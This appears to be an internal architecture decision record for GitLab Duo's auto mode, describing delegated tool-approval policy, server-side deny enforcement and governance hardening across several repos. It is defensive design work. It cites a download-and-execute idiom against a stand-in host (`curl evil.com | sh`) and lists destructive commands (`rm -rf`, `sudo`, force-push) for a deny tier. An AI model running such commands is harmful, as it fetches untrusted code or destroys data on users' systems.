



## Executive Summary

An earlier version of this proposal was built around **user-authored patterns** in `~/.gitlab/duo` as the primary auto-approval mechanism. On reflection, that design has an adoption problem: a user gets zero reduction in approval prompts until they've written and understood pattern syntax themselves. A subsequent revision proposed a GitLab-authored default policy shipped as a Rails constant — better for day-one adoption, but it kept GitLab engineering as the permanent owner of every per-subcommand judgment call, which is the validator-maintenance problem relocated rather than retired.

This ADR proposes **auto mode as delegation**. The existing governance layer ([ADR-009](009_ai_governance.md)) remains the organization's hard ceiling, at the tool/privilege-group level where admins actually operate. A new cascading admin setting grants explicit consent for developers on local surfaces (CLI, IDE extensions) to have a **local policy** — evaluated through the client's PreToolUse hook — answer the approval prompts that governance would otherwise raise. GitLab ships a default policy as the hook's starting content; customers own and may override it.

- **Phase 0 (this ADR):** the delegation consent setting, the hook-evaluated default policy (no user authorship required on day one), and server-side `deny` enforcement.
- **Phase 1 (fast-follow, epic [#21877](https://gitlab.com/groups/gitlab-org/-/work_items/21877), rescoped):** user-authored policy layered on top of the Phase 0 default through the identical hook and merge logic — not a second mechanism.

The invariant that makes this safe to say out loud: **a local policy can answer `ask`; it can never override an admin `deny`.** Deny is enforced server-side and always holds. Local policy may always *tighten* (a hook `deny` stands even where governance allows).

## 1. Problem Statement

Auto mode's value proposition is "most tool calls don't need a human in the loop." Today there is exactly one way to achieve that: an admin sets the `run_commands`/`use_git` privilege groups to always-allow for the whole group. That is the unsafe state this architecture exists to prevent — governance rules are deliberately coarse (one registry entry covers all of `run_command`; another covers all of `run_git_command`), so "allow" at that level cannot distinguish `git status` from `git push --force`.

The earlier user-authored design fixed granularity but not adoption: day one of auto mode looked identical to auto mode off, because no `~/.gitlab/duo` file exists yet. The GitLab-authored-constant revision fixed adoption but not ownership: every future subcommand tier judgment (`cargo`? `terraform`? a new `npm` verb?) would land on the team that owns the constant, forever — the same unbounded curation burden that produced 5 AppSec bypasses in the validator model ([ADR-011 §1](011_command_validator_deprecation.md)).

Separately, the positional-arg gap ([ADR-011 §2.2](011_command_validator_deprecation.md) — `*` protects against flag injection but not against a dangerous value like a package name or URL) was tentatively addressed by pointing at deferred argument-level governance (glob/regex matching on `ai_tool_rules.tool_arguments`). That's the wrong fix for two reasons:

1. **No timeline.** Argument-level governance needs a new resolver algorithm (specificity-based precedence), a GIN index, and UI to teach admins glob/regex semantics — a materially larger lift than anything in this ADR.
2. **Wrong actor.** Even if built, it asks admins to author per-argument allow/deny patterns org-wide. Admins should operate at "block this tool" granularity (which governance already does today); per-command-argument policy is a per-user, per-workflow concern.

Delegation resolves all three tensions at once: adoption (a default policy ships with the hook, active on day one), ownership (customers own their policy; the shipped default has a dedicated security-posture owner with a review cadence, not the AI Clients team), and actor altitude (admins consent at the group level; developers refine at the argument level).

## 2. Decision

Ship the consent setting and a hook-evaluated default policy before requiring anyone — admin or user — to author a pattern.

### 2.1 What's new

- **A cascading delegation setting** (working name `local_policy_tool_approval_enabled`, default **off**, with the standard `lock_*` admin-enforcement column — same shape as `tool_approval_for_session_enabled`). Semantics: the admin explicitly consents that, on local surfaces, a governance `ask` may be answered by the developer's local policy instead of a human prompt. This is consent, not convenience, and the UI copy must make that legible. It realizes — in generalized form — the user-level auto-approve opt-in previously tracked as a deferred governance capability ("admins can unlock user-level settings, and users can then set their own preferences within the bounds of the admin policy"; see §7).
- **A shipped default policy, evaluated by the client's PreToolUse hook** ([gitlab-lsp MR !3610](https://gitlab.com/gitlab-org/editor-extensions/gitlab-lsp/-/merge_requests/3610), a **blocking prerequisite** — currently in draft review). The policy is a versioned, three-tier (`allow`/`ask`/`deny`) rule set using the schema already finalized for epic #21877 (`{ tool, patterns? }` per tier). It ships with the client (static, versioned, revertible via an LSP release independent of server rollout), maintained by a dedicated security-posture owner with a recurring review cadence (owning team to be confirmed before v0 ships; ratification of the initial tiers is part of that handoff). Customers can override it — that is the point.
- **Server-side `deny` enforcement** on the tool-call-approval path (today, `deny` isn't persisted or enforced server-side at all — see §4.1). The default policy's `deny` tier is registered server-side, so deny survives a bypassed, stale, or absent client.
- **Governance enforcement hardening** (§4.1). The delegation story leans on governance being a real server-side ceiling. Today it is not, for local surfaces: workflow creation skips governance resolution entirely when the client supplies its own privileges, and the JWT claim that carries per-tool rules to the AI Gateway is resolved with a hardcoded `web` surface, so `local_access` rules never reach it. Closing both is prerequisite work for this ADR, not background cleanup.

### 2.2 What's explicitly deferred (and why that's fine)

- **User-authored local policy** (epic #21877, rescoped): lands in Phase 1 as an override layer on top of the Phase 0 default, consumed by the same hook with the same merge function and the same conversion path into session approvals. No rework. Note: the epic's original `~/.gitlab/duo` file location is superseded by the hook's configuration conventions (`~/.config/duo/` user-level, `.gitlab/duo/` project-level, per !3610) — one user-facing policy surface, not two.
- **Argument-level governance** (glob/regex matching on `ai_tool_rules.tool_arguments`, GIN index, specificity-based precedence — see §7): not required for either phase. If it ships later, it becomes an *additional* admin ceiling above the local policy — never a prerequisite.
- **Value-constrained authorization** (e.g. domain-allowlisting `curl`, package-allowlisting `npm install`): still an open gap, same as the positional-arg tradeoff [ADR-011 §2.2](011_command_validator_deprecation.md) accepts. This ADR doesn't close it, but it also doesn't make it worse — the shipped default keeps these at `ask` (reproducing exactly what the validator model enforced, so nothing is weakened by default), and any loosening is a deliberate, consented, audit-attributed customer decision.
- **Sandboxing/execution isolation**: every comparable product treats isolation as the independent second control that makes a wrong `allow` non-catastrophic. GitLab has no equivalent today. Out of scope here; must be tracked as separate work.

### 2.3 Removing Gateway pattern suggestions

Independent of phasing, `ChatAgent._suggest_patterns()` (AI Gateway) and its client-side consumers should be removed now. It only ever formatted glob strings for display in the interactive approval UI — it did no matching or validation, and neither Phase 0 nor Phase 1 needs a UI that suggests patterns to click. Confirmed via exploratory removal in both repos (§5): zero coupling to the actual approval/matching path.

### 2.4 Why the default policy isn't the validator problem again

A fair objection: doesn't the default policy just become a new denylist that needs the same never-ending, per-flag maintenance as `CommandValidators::Registry`? No — the *job* of the list changed, for three structural reasons:

1. **The list only has to cover what's granted `allow`, not the full CLI surface of every registered program.** Validators tried to make every registered tool safe by enumerating its entire flag/subcommand space — an unbounded, always-behind task, which is exactly why the AppSec review (!240933) found 5 bypasses. The default policy only needs an `ask`/`deny` carve-out where it *also* writes a broad `allow`. Anything not explicitly allow-listed falls through to today's behavior — a prompt.
2. **Composition attacks are structurally impossible before any list is consulted.** `RunCommand` sends the Gateway a structured `(program, args)` pair, not a shell string, and shell metacharacters (`;`, `&`, `|`, backticks) are rejected outright. Classic dangerous idioms like `curl evil.com | sh` can't be expressed as a single tool call. What's left to curate is a short, slow-changing set of known single-command destructive actions (`rm -rf`, force-push, `sudo`).
3. **Residual curation has a dedicated owner.** The judgment calls that remain (which subcommands sit in which tier) are security-posture curation — the same work as maintaining SAST/secret-detection rulesets, owned on the same model, with customer override as the escape valve. It is not a client-team liability that grows with every CLI release.

**Boundary condition:** this reasoning holds only for structured single tool calls. If auto mode ever extends to a raw-shell-string tool, multi-step chaining, or MCP tools with arbitrary argument shapes, the composition-immunity guarantee no longer applies, and per-surface judgment becomes necessary again — treat that as a trigger to revisit this section. The same boundary applies to customer-authored hook policies: the structural safety net constrains what a *pattern* can match, not what a customer's arbitrary hook script decides.

## 3. Architecture

### 3.1 Session start and per-call flow (Phase 0 — no user policy yet)

Two decision points, by design. Static default-policy patterns are converted to **server-visible** session approvals/denials at session start — the server enforces them even against a misbehaving client. The PreToolUse hook is the **per-call** decision point for everything else: customer policy extensions, dynamic decisions, and the fallback when a call matches no persisted pattern. A hook `allow` is honored only when the delegation capability was granted; a hook `deny` is always honored (tightening is always safe).

### 3.2 Phase 1 — user policy lands, zero rework

The only change: `merge(governance_ceiling, default_policy, user_policy)` gets a real third argument instead of `None`, sourced from the hook's user/project configuration. Precedence (unchanged): **governance → deny → ask → allow → default policy → prompt.** Everything downstream — the mutation, `CommandPatternMatcher`, server-side deny enforcement, the hook contract — is unmodified.

### 3.3 Two orthogonal server-derived axes: execution_mode and surface

The governance ceiling this ADR delegates from is only trustworthy if the facts it resolves against cannot be chosen by the client. There are **two independent, server-derived signals**, and the design keeps them separate rather than collapsing one into the other:

- **`execution_mode` (binary: `client` / `background`): the trust and interactivity signal.** `client` means a human is present and interactive (CLI, IDE, and the interactive web UI); `background` means unattended (CI, service-account runs). This drives the **privilege clamp**: client-supplied privileges are only trusted (unclamped) on the surfaces where that is safe. It is **trust-sensitive** and must be **server-derived**; a client that could assert its own execution mode could pick its own rulebook.
- **`surface` (3-way: `web` / `local` / `background`): which policy column applies.** `Ai::ToolRule` carries three access columns (`web_access`, `local_access`, `background_access`), each `allow`/`ask`/`deny`, except `background_access` which is constrained to `allow`/`deny` only because an unattended surface has no human to answer an `ask`. `access_for(surface)` maps the surface to its column. This is also **trust-sensitive** (a spoofed surface picks a looser column) and must be **server-derived**.

**Design decision: keep both axes, keep them distinct, make both server-derived.** `execution_mode` stays binary (trust/clamp). `surface` stays 3-way so that the web surface retains its own distinct `web_access` column, separate from CLI/IDE (`local_access`). We do **not** fold web into `local_access`, and we do **not** collapse surface selection onto the binary `execution_mode`. The interactive web UI is both `client` (execution_mode, so its trust/clamp behaves like an interactive surface) **and** `web` (surface, so it binds `web_access`, which supports `ask`). The two signals answer different questions and are consumed at different points.

| Surface | `execution_mode` (trust/clamp) | `surface` (policy column) |
|---|---|---|
| CLI / IDE | client (interactive) | `local` → `local_access` |
| Interactive web UI | client (interactive) | `web` → `web_access` (supports `ask`) |
| CI / service-account | background (unattended) | `background` → `background_access` (`ask` → `allow`) |

**Implementation caveat for web-UI governance.** Today both signals lean on inputs that are not yet fully server-derived for the interactive web UI. The interactive web UI must be derivable server-side as **both** the `web` surface **and** `client` execution_mode, without depending on the spoofable client `environment` string or on `caller_can_execute` (the web path yields `caller_can_execute: false`, which would misclassify it as `background`). Making both signals server-derived for the web UI is a follow-up for web-UI governance, not a blocker for the CLI/IDE surfaces this ADR ships first.

**Naming trap (verified in code).** In `GovernanceSurface` today, `environment: web`/`ambient` are labeled the *background* environments (`web` here is legacy `ambient`), **not** the interactive Duo web UI. Interactive Duo Chat arrives as `chat`/`chat_partial` and maps to `local_access` today. So "web" is overloaded: the `web_access` *column* is the intended home for the interactive web UI, but the `environment: web` *string* currently denotes the legacy ambient/background path. The re-key (§3.4) must resolve this so the interactive web UI lands on `web_access` by a server-derived surface, not by the ambient-labeled `environment: web`.

### 3.4 The execution-mode substrate (server-derived, persisted)

The axes model above needs a server-owned source of truth for execution mode. Two pieces provide it:

- **Sealed classification (shipped).** `Ai::DuoWorkflows::FlowExecutionAuthorizer` derives a `Classification` (`CLIENT` / `BACKGROUND`) from **endpoint + request shape** (`caller_can_execute`, `start_workflow`, `item_consumer_id`), never from client self-assertion. `Classification.new` is private, so the value cannot be forged, and `CreateWorkflowService` re-checks the type before trusting it. Delivered in [gitlab!248339](https://gitlab.com/gitlab-org/gitlab/-/merge_requests/248339) (merged), gated by `duo_client_executed_flow_governance`. This is the server-derived `execution_mode` signal in structural form.
- **Persisted column (in flight).** [gitlab!250574](https://gitlab.com/gitlab-org/gitlab/-/merge_requests/250574) adds a persisted `execution_mode` column on `duo_workflows_workflows` (enum `{ client: 1, background: 2 }`, `executed_by_*` predicates, `execution_unclassified?`), written from the sealed classification and stripped from client params. This makes the trustworthy `execution_mode` (the trust/clamp signal) durable so every downstream site can key the clamp off it instead of re-deriving it or trusting `environment`.

**Today's live state.** `Ai::ToolRules::GovernanceSurface.for(...)` already resolves a 3-way `surface` and `web_access` is already a live column: `environment: web`/`ambient` map to `:web` → `web_access` (which supports `ask`) **unless** the background flag is on and the flow is allowlisted, in which case they map to `:background` → `background_access` (`ask` → `allow`); `ide`/`chat`/`chat_partial` map to `local_access`. The gap is that this 3-way surface is still selected from the **client-supplied `environment` string**, and (per the naming trap in §3.3) `environment: web` today denotes the legacy ambient/background path, not the interactive web UI.

**Re-key as a tracked step ([gitlab#618761](https://gitlab.com/gitlab-org/gitlab/-/issues/618761)).** The re-key does **not** collapse surface selection onto the binary `execution_mode`. It makes the existing **3-way surface selection server-derived** (removing the spoofable client-`environment` dependency), while `execution_mode` is used as the **trust clamp**. `web_access` stays a live, distinct column: the interactive web UI must be derivable server-side as the `web` surface (binding `web_access`), and separately as `client` execution_mode (for the clamp), rather than via a spoofable client `environment` or via `caller_can_execute`. This closes the residual column-selection leak; it is sequenced after !250574 lands the persisted `execution_mode`. Until then, "deny on local" is only as strong as the client's honesty about `environment` (the failure mode of a spoofed/absent `environment` is escape into the *unclamped* web path, the worst direction).

Related structural risk to resolve at re-key time: surface resolution is currently duplicated across `create_workflow_service`, `update_agent_privileges_service`, `workflow_context_generation_service`, and `workflows.rb`, each with its own `|| :web` fallback. Consolidate into a single server-derived authority (surface + execution_mode from the workflow, no client `environment` param) so a new call site cannot forget the clamp or pick the wrong column.

## 4. Implementation Plan by Repo

Grounded in direct exploration of each codebase (see file references below); not speculative.

### 4.1 `gitlab` (Rails monolith)

- **Governance bypass: closed (shipped in [gitlab!249463](https://gitlab.com/gitlab-org/gitlab/-/merge_requests/249463)).** Previously `CreateWorkflowService#resolve_agent_privileges` early-returned when the client supplied `agent_privileges`, so CLI-created workflows skipped governance resolution entirely, and the `tool_access_policies` JWT-claim call sites hardcoded `surface: :web` so `local_access` rules never reached the AI Gateway. !249463 introduced `Ai::ToolRules::GovernanceSurface` (surface selection), routed resolution through `Ai::ToolRules::ResolutionService`, and added `clamp_client_privileges` so client-supplied privileges are always resolved, never trusted. Both are gated by `duo_workflow_local_tool_governance` (local surfaces) and `duo_workflow_background_tool_governance` (background). **Residual, not yet closed:** `GovernanceSurface` still keys off the client-asserted `environment` string for *which column* applies (see §3.4). Web surfaces still early-return from the clamp (`clamp_client_privileges` returns early for web), which is why the spoofed/absent-`environment` failure mode escapes into the unclamped web path. The re-key in §3.4 is the release blocker for local-surface governance GA, not this now-shipped clamp.
- **New cascading setting**: `local_policy_tool_approval_enabled` (+ `lock_*`), default off, following `tool_approval_for_session_enabled` exactly (`ee/app/models/ee/namespace_setting.rb`, `app/models/concerns/cascading_namespace_setting_attribute.rb`). Surfaced on the GitLab Duo configuration page (not the governance page: governance is where admins write rules; configuration is where they grant consent about how clients interact with those rules). Delivered to clients as a `local_policy_tool_approval` capability string via the existing `compute_server_capabilities` filter (`ee/lib/api/ai/duo_workflows/workflows.rb`) — the same mechanism that gates `tool_call_approval`/`tool_call_pattern_approval` today.
- **Reused unchanged**: `Ai::DuoWorkflows::CommandPatternMatcher` (`ee/app/models/ai/duo_workflows/command_pattern_matcher.rb`) — the flag-injection rule (`rejects_flag_target?`/`flag_token?`) and shell-metacharacter rejection (`SHELL_METACHARACTERS` check in `Workflow#command_safe_for_pattern_approval?`) are exactly the safety net [ADR-011](011_command_validator_deprecation.md) describes, invoked from `ToolCallApprovals#approved?` (`ee/app/models/ai/duo_workflows/workflow.rb:260-285`). No second matching engine needed.
- **New: server-side deny.** Today `UpdateDuoWorkflowToolCallApprovals` only ever adds an *approval* — there's no `deny` argument or persisted denial state anywhere in this path (confirmed: `ee/app/services/ai/duo_workflows/update_tool_call_approvals_service.rb`, `ToolCallApprovals#approved?`). Add an `action` enum (`allow`/`deny`) to the mutation, a parallel `denied?` check on `ToolCallApprovals`, and make the tool-execution path check `denied?` before `approved?` — this is what makes the default policy's `deny` tier enforceable against a client that ignores it.
- **Audit**: extend the existing `duo_tool_call_approved` pattern (`Gitlab::Audit::Auditor`, `ee/config/audit_events/types/`) with `duo_tool_call_denied` and `duo_tool_call_auto_approved`. Auto-approval events must carry **decision-source attribution** (policy-approved, meaning which policy layer: shipped default, user policy, hook; vs. human-approved) so an admin reviewing activity can see exactly which approvals no human made. The attribution vocabulary is the shipped `ApprovalSource` enum (`USER_EXPLICIT`, `PRETOOLUSE_HOOK`, `AUTO_MODE`, `PREAPPROVED_CONFIG`, `SESSION_APPROVAL`; the `approval_source` field), carried on the gRPC contract (Layer-1 attribution train, merged). **Caveat and invariant:** client-reported `ApprovalSource` values are informational only and are not verified server-side; only `SESSION_APPROVAL` is server-produced. They are safe *because nothing branches on them*: the gate is the server toolset plus the Rails approval check. This ADR requires that `AUTO_MODE`/`PRETOOLUSE_HOOK` never gate a decision; if per-source behavior is ever wanted, the source must first be promoted to a server-derived value. **L2 (audit completeness, next):** `approval_source` currently rides only the streaming approval event; threading it onto the persisted `ai_tool_invoked` event (gitlab#603370 phase 2) is what surfaces silent reuse and server-side skips in the in-app audit UI.

### 4.2 `gitlab-lsp`

- **Blocking prerequisite**: PreToolUse hooks (MR !3610, branch `db/pretool-hooks`, in draft review — `packages/lib_hooks/src/`, wired into `tool_approval_handler.ts`). The hook contract (exit 0 + JSON decision, exit 2 = deny, timeout = no opinion; precedence deny > allow > ask) is the per-call policy decision point this ADR builds on. The delegation delta on top of that MR: gate hook `allow` on the `local_policy_tool_approval` server capability (absent capability downgrades `allow` to `ask`; `deny` and `ask` need no gating), and add decision-source attribution to approval telemetry.
- **New capability**: `local_policy_tool_approval`, following `supportsPatternApprovals` exactly (`packages/lib_tool_approval/src/capability_checker.ts`).
- **Default policy ships with the client** as the hook's starting policy: static, versioned, revertible via LSP release independent of server rollout, available before any network round trip. Vendored at release from the owning team's canonical source (pin-bump is the review checkpoint); the emergency lever for a bad policy is the server-side capability flag, not a policy hotfix — flipping consent off returns every client to human `ask` at the next workflow creation.
- **Reused unchanged**: `persistPatternApprovalForSession()` (`packages/lib_tool_approval/src/persistence.ts`) — default-policy `allow` entries convert through the exact same call as manually-approved patterns. No new mutation shape (the `action: deny` enum extends the existing one).
- **New merge function**: `packages/lib_tool_approval/src/policy_merge.ts`, taking `(governancePolicy, defaultPolicy, userPolicy)`. Phase 0 calls it with `userPolicy` absent. Phase 1 plugs in the hook's user/project policy configuration without touching this function's signature or the conversion path.
- **IDE/webview is Phase 2 of the client rollout, not a design gap**: `lib_hooks` lives in LSP core and runs locally for IDE extensions too; what's missing is wiring the webview approval flow through the same hook consultation. Deferred, not redesigned.

### 4.3 `gitlab-ai-gateway`

- No new matching logic here — confirmed the Gateway has never owned matching; it delegates to Rails via GraphQL (`ToolsRegistry.approval_required()`, `duo_workflow_service/components/tools_registry.py:423-508`) and caches the boolean result per session. This stays exactly as-is; only the response shape needs to widen from boolean to tri-state (`allow`/`ask`/`deny`) to carry the new deny signal from §4.1.
- Confirmed a second, separate, tool-name-only approval path exists (`agent_platform/v1/components/agent/nodes/tool_approval_request_node.py`, `Toolset.approved()`) with no Rails call and no pattern matching at all. It never had suggestions wired in and needs no change for this ADR — flagged here only so it isn't mistaken for dead code during Phase 0 rollout.

### 4.4 Telemetry

Four hook points, designed now so they can be added incrementally without architectural changes: `duo_tool_approval_decision` (decision + **source**: human / shipped default / user policy / hook + matched pattern), `duo_tool_governance_override` (governance overrode a config match), `duo_tool_config_denied`, `duo_tool_config_loaded` (pattern counts, validation errors). These back four metrics worth tracking once Phase 1 ships: auto-approval rate per pattern, manual-override rate (prompted when a pattern would've matched — signals a default policy that's too conservative), governance-deny rate in auto mode, and config pattern-count distribution (catches overly broad or overly narrow configs).

## 5. Removing Gateway Pattern Suggestions — Verified Removal/Reuse Lists

Verified via exploratory removal in throwaway worktrees (all tests re-run; no commits made).

**`gitlab-ai-gateway` — safe to remove:**

- `ChatAgent._suggest_patterns()` and its module constants (`duo_workflow_service/agents/chat_agent.py`)
- `ToolInfo.suggested_patterns` field (`duo_workflow_service/entities/state.py`)
- Associated test classes/fixtures in `test_chat_agent.py` and `test_notifier.py`

**`gitlab-ai-gateway` — must keep (auto mode plugs in here):**

- `ToolsRegistry.approval_required()`, `is_preapproved()`, `_approved_cache`, `TOOL_CALL_APPROVED_QUERY` — the actual decision point.
- `contract.proto` `Approval`/`Approval.Approved`/`Approval.Rejected` — `suggested_patterns` was never part of this contract; nothing to change here.
- The `agent_platform/v1` tool-name-only path — untouched, unrelated.

**`gitlab-lsp` — safe to remove:**

- The `suggested_patterns`-reading block in `getApprovalOptions()` (`chat_message_helpers.js`)
- `ToolInfoSchema.suggested_patterns` (`packages/lib_workflow_api/src/ui_chat_log.ts`)
- Associated positive-case tests

**`gitlab-lsp` — must keep:**

- `capability_checker.ts`, `persistence.ts`, `update_tool_call_approvals.ts` — none of these ever depended on the suggestion field.
- Baseline approve-once / approve-for-session UI logic in `getApprovalOptions()`.
- **Flag for design review:** `supportsPatternApprovals` gates general pattern-approval capability, not just suggestion display — confirm with product before repurposing or removing this flag itself.

## 6. Rollout

| Phase | Ships | Requires |
|---|---|---|
| 0 (this ADR) | Delegation consent setting + hook-evaluated default policy + server-side deny | PreToolUse hooks (gitlab-lsp !3610) merged; governance-bypass clamp shipped (!249463, flags `duo_workflow_local_tool_governance` / `duo_workflow_background_tool_governance`); execution-mode substrate landed (sealed classification !248339 under `duo_client_executed_flow_governance`; persisted `execution_mode` !250574) and `GovernanceSurface` re-keyed off it (§3.4); initial default policy ratified by its owning team. Reuses ADR-006/009's infrastructure and ADR-011's structural safety net unchanged |
| 1 (#21877, rescoped) | User-authored policy via the same hook, same schema, same merge function | Phase 0 shipped |
| Later (no timeline) | Admin-authored argument-level governance ceiling: glob/regex `match_type` on `ai_tool_rules.tool_arguments`, GIN index, specificity-based precedence | Nothing — additive ceiling above the local policy, never a blocker |

## 7. Relationship to Existing ADRs

| ADR | Relationship |
|---|---|
| [006 — Tool Approval](006_tool_approval.md) | Unchanged. Session-approval mechanics and capability negotiation reused as-is (extended with the `deny` action). |
| [009 — AI Governance](009_ai_governance.md) | Unchanged in model; hardened in enforcement (§4.1). Tool-name-level ceiling continues to sit above the local policy. |
| [011 — Structural Safety Net and Validator Deprecation](011_command_validator_deprecation.md) | Depended on, not superseded. `CommandPatternMatcher` and the structural `*`-excludes-flags safety net are reused unchanged — this ADR only changes *what populates the policy* on day one (a shipped, customer-overridable default) and *when* user authorship is required (Phase 1, not Phase 0). ADR-011's validator deprecation path is the cleanup this rollout eventually makes safe to complete. |

**Disposition of the former "ADR-009 v2: Deferred Capabilities" document** (deleted in the same change that introduced this revision — its content had no decided architecture and did not fit the ADR format):

- *User-level auto-approve opt-in* (its item 7) — **delivered by this ADR**, generalized: the delegation consent setting plus local policy is exactly "admins unlock user-level settings; users set preferences within the bounds of the admin policy," without the `user_id`-scoped `ai_tool_rules` rows it originally sketched.
- *Glob/regex argument matching, GIN index, specificity-based precedence* (items 1, 2, 5) — carried forward as the "Later" rollout row above: the optional future argument-level governance ceiling.
- *Audit-only mode, compliance presets, denied-tool prompt filtering, instance-level rules, traversal-ID query optimization* (items 3, 4, 6, 8, 9) — governance-engine backlog unrelated to auto mode; to be migrated to tracking issues rather than living in an ADR.

## 8. Open Questions

1. What should the initial default policy actually contain? Needs a pass per tool (`git`, `npm`, `docker`, `curl`, `make`) deciding `allow` vs. `ask` vs. `deny` for common subcommands — drafted internally (Category A/B analysis, verified against the retiring validators), to be ratified by the policy's owning team before v0 ships.
2. Does `denied?` enforcement (§4.1) need to be synchronous on the hot path, or can it be checked at the same point `approved?` already is, with no new round trip? (Likely the latter — same call site, additional branch.)
3. Headless-mode `ask` semantics: in `duo run` there is no human to answer an `ask` that falls through the policy (or a hook `allow` downgraded for missing consent). Decide: hard-fail the tool call (safe, recommended) vs. skip-and-continue. It must not silently become `allow`.
4. Mid-session revocation: flipping the consent setting off stops *new* workflows from auto-approving; there is no kill switch that halts policy-approval inside an already-running session. Acceptable for Phase 0? Worth scoping even if deferred.
5. **Server-side delegation evaluator for non-local surfaces.** The delegation mechanism (PreToolUse hook / Rego) is client-only today and explicitly unverified server-side. Auto mode on the web UI or CI needs a *server-trusted* way to resolve an `ask` without a human. Decide where that evaluator lives (Rails before the JWT mint, or DWS at `approval_required`), and reconsider `background_effective`'s `ask` → `allow`: on an unattended surface that *has* a delegated approver, `ask` should route to the approver, not silently become `allow`.
6. **Per-local-surface policy within `local_access`.** The web surface keeps its own distinct `web_access` column (see Resolved decisions), so web is **not** flattened. What remains flattened is the *local* surfaces: `ide`/`cli`/`chat` all resolve to the single `local_access` column. That is fine for the trust fix today, but forecloses future "IDE may run X, unattended CLI may not" policy without a re-expansion. Confirm this is an accepted tradeoff, made consciously rather than by omission.

**Resolved decisions**

- *Two axes, kept distinct, both server-derived (resolved 2026-08-20 after verifying the code mapping; see the [!250574](https://gitlab.com/gitlab-org/gitlab/-/merge_requests/250574) thread).* The architecture keeps **two separate server-derived signals** rather than collapsing one into the other: `execution_mode` (binary `client`/`background`) is the trust/interactivity signal that drives the privilege clamp, and `surface` (3-way `web`/`local`/`background`) selects which policy column applies. `web_access` is **preserved as a distinct column**: the interactive web UI resolves as `web` surface (binding `web_access`, which supports `ask`) and as `client` execution_mode (for the clamp); it does **not** fold into `local_access`, and surface selection is **not** collapsed onto the binary `execution_mode`. The remaining implementation work is to make both signals server-derived for the web UI (not via the spoofable client `environment` or `caller_can_execute`); tracked as [gitlab#618761](https://gitlab.com/gitlab-org/gitlab/-/issues/618761) (see §3.3, §3.4).
